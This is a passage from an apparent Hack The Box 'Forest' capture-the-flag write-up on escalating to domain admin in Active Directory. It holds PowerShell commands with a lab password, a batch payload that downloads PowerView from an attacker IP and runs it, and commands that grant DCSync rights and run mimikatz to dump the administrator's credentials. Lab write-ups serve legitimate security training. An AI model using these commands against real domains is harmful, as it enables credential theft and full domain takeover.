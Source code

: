 We're now one of the "EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL"  group with hight priviliges.

```
PS > net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/17/2019 7:53:46 AM
Password expires             Never
Password changeable          10/18/2019 7:53:46 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/17/2019 7:54:11 AM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Exchange Trusted Subs
                             *Service Accounts     
The command completed successfully.
```

So we have to add "DCSync" right to the current user.

#### Nota: we have to relogin again or use RunAS to be able to use the new group added rights !!!
#### Nota: use the branch dev of PowerSPLOIT project 

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

```
$username = '.\svc-alfresco';$password = 's3rvice';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName FOREST -Command { cmd /k  ' C:\windows\system32\spool\drivers\color\dcs.bat ' }
```

Here we use RunAs and we execute a dcs.bat file which contains :

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.x/PowerView.ps1');Add-ObjectACL -PrincipalIdentity svc-alfresco -Rights DCSync" && C:\windows\system32\spool\drivers\color\mimikatz.exe "lsadump::dcsync /domain:htb.local /user:administrator" exit
```

